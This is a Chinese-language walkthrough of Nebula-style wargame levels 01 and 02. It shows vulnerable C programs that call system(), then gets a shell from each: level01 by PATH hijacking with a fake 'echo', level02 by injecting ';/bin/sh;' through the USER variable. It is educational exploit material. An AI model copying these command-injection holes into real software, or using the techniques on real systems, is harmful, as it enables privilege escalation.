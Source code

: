# Linux下漏洞分析入门实验1

## 实验概述

### 【目的】
1. 运行level01,反弹shell。
2. 运行level02，反弹shell。
### 【环境】
Linux
### 【工具】
shell
### 【原理】
环境变量
在所有 Unix 和 类Unix系统中, 每个进程都有其各自的环境变量设置。 缺省情况下, 当一个进程被创建时， 除了创建过程中的明确更改外，它继承了其父进程的绝大部分环境设置。 在API层级上, 使用fork和exec函数进行变量设置。或利用bashshell文件, 使用特殊的命令调用来改变环境变量：通过env 间接替代或者使用ENVIRONMENT_VARIABLE=VALUE <command> 标识. 所有的Unix操作系统 以及DOS 和Microsoft Windows 都是用环境变量，但是它们使用不同的环境变量名称。我们可以通过运行程序来访问环境变量的值。环境变量的例子包括：

PATH 罗列出 shell 搜索 用户 输入的执行命令所在的目录。
HOME (类Unix系统) 和 userprofile (Microsoft Windows) 表示用户的主目录在文件系统中的位置。
TERM (类Unix系统) 指定使用终端或虚拟终端 的类型 (如, vt100 or dumb)。
CVS_RSH (类Unix系统) 该选项可用于 ext 方式中指明 cvs 客户端寻找远端 shell 的路径，用作连接 cvs 服务器和以更高的优先权覆盖 $CVS_RSH 环境变量中指定的路径。
MAIL (类Unix系统) 当前用户的邮件存放目录。
Shell 脚本 和 批处理文件 使用环境变量来存储临时值，用于以后在脚本中引用，也用于传递数据和参数给子进程。 在Unix系统中，一个在脚本或程序中更改的环境变量值只会影响该进程，亦可能影响其子进程。其父进程和无关进程将不受影响。在DOS中，更改或删除一个批处理文件中的环境变量值将改变变量的期限命令的存在。

在Unix系统通过初始化脚本启动时，环境变量通常会在此时被初始化，因此会被系统中的其它进程所继承。用户可以而且经常添加环境变量到他们使用的shell脚本中。 在Windows系统中，环境变量的缺省值存储在 windows 注册表 中，或者在 autoexec.bat 自动执行的批处理文件中设置。
## 实验步骤

### 【步骤】

#### level01
查看源码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```
system()函数执行命令，其中使用环境变量的PATH路径下查找echo命令并显示and now what?
尝试运行，发现与预料中的结果一致。
```
~/nebula$ ./level01 
and now what?
```
要getshell，就需要运行system("/bin/sh")这里echo看起来是写死了不可改变的，但前面有`/usr/bin/env`,因此可以尝试修改环境变量。
在从环境变量制定的路径下查找echo时，会从第一个路径开始检索echo，如果在前面找到了echo，那么后面的路径就不会再遍历了，这是一个节约时间的策略，但是也就存在了我们可以利用的空间。
如果我们在PATH的最前面插入一个目录，其中包含一个可执行的假的echo，内容是`/bin/sh`，那么就可以执行system("/bin/sh")。
```
lometsj@ubuntu:~/nebula$ pwd        #显示当前目录
/home/lometsj/nebula
lometsj@ubuntu:~/nebula$ export PATH=/home/lometsj/nebula:$PATH   #把当前目录加到PATH的最前面
lometsj@ubuntu:~/nebula$ echo "/bin/sh" >echo                     #在当前目录伪造一个echo
lometsj@ubuntu:~/nebula$ chmod +x echo                            #加上可执行权限
lometsj@ubuntu:~/nebula$ ./level01                                #运行，getshell
$ echo u got it
u got it
$ exit


```
#### level02
查看源码
```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
可以看到程序从环境变量的USER读取字符串通过"/bin/echo %s is cool"格式化写入到buffer，并且用system()执行buffer。目的很明确，我们需要修改USER。
要想执行system("/bin/sh"),先要使前面的"/bin/echo"结束。
在shell语法中，一条指令以`;`结束。
于是有
```
$ export USER=";/bin/sh;"
$ ./level02
about to call system("/bin/echo ;/bin/sh; is cool")

$ echo u got it
u got it


```
### 【总结】

本次实验主要熟悉了Linux的环境变量方面的漏洞。
